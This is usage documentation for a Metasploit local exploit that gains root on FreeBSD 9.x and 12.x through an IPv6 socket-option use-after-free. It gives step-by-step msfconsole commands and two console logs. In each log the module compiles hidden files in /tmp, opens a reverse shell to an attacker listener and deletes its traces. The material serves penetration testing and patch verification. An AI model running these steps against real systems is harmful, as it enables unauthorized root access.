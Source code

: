 ## Vulnerable Application

This module exploits a race and use-after-free vulnerability in the
FreeBSD kernel IPv6 socket handling. A missing synchronization lock
in the `IPV6_2292PKTOPTIONS` option handling in `setsockopt` permits
racing `ip6_setpktopt` access to a freed `ip6_pktopts` struct.

This exploit overwrites the `ip6po_pktinfo` pointer of a `ip6_pktopts`
struct in freed memory to achieve arbitrary kernel read/write.

This module has been tested successfully on:

* FreeBSD 9.0-RELEASE #0 (amd64)
* FreeBSD 9.1-RELEASE #0 r243825 (amd64)
* FreeBSD 9.2-RELEASE #0 r255898 (amd64)
* FreeBSD 9.3-RELEASE #0 r268512 (amd64)
* FreeBSD 12.0-RELEASE r341666 (amd64)
* FreeBSD 12.1-RELEASE r354233 (amd64)


## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc`
4. `set SESSION <SESSION>`
5. `check`
6. `run`
7. You should get a new *root* session


## Options

### NUM_SPRAY

Spray iterations (default (`256`)

### NUM_SPRAY_RACE

Race iterations (default: `32`)

### ForceExploit

Override check result (default: `false`)

### WritableDir

A directory where we can write files (default: `/tmp`)


## Scenarios

### FreeBSD 9.3-RELEASE #0 r268512 (amd64)

```
msf5 > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
session => 1
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Using target: FreeBSD 9.3-RELEASE #0 r268512 - allproc offset: 0x1295800
[*] Writing '/tmp/.SnZgWBMA.c' (14147 bytes) ...
[*] Compiling /tmp/.SnZgWBMA.c ...
[*] Writing '/tmp/.d97xapNItz' (218 bytes) ...
[*] Launching exploit (timeout: 30s) ...
[*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
[+] Success! Executing payload...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.142:61848) at 2020-07-09 18:02:09 -0400
[+] Deleted /tmp/.SnZgWBMA.c
[+] Deleted /tmp/.SnZgWBMA
[+] Deleted /tmp/.d97xapNItz

id
uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
uname -a
FreeBSD freebsd-9-3-amd64 9.3-RELEASE FreeBSD 9.3-RELEASE #0 r268512: Thu Jul 10 23:44:39 UTC 2014     root@snap.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```

### FreeBSD 12.1-RELEASE r354233 (amd64)

```
msf5 > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
session => 1
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Using target: FreeBSD 12.1-RELEASE r354233 - allproc offset: 0x1df7648
[*] Writing '/tmp/.V8vZ5.c' (14162 bytes) ...
[*] Compiling /tmp/.V8vZ5.c ...
[*] Writing '/tmp/.ok9laPn' (218 bytes) ...
[*] Launching exploit (timeout: 30s) ...
[*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
[+] Success! Executing payload...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.140:35808) at 2020-07-09 18:04:24 -0400
[+] Deleted /tmp/.V8vZ5.c
[+] Deleted /tmp/.V8vZ5
[+] Deleted /tmp/.ok9laPn

id
uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
uname -a
FreeBSD freebsd-12-1-amd64 12.1-RELEASE FreeBSD 12.1-RELEASE r354233 GENERIC  amd64
```

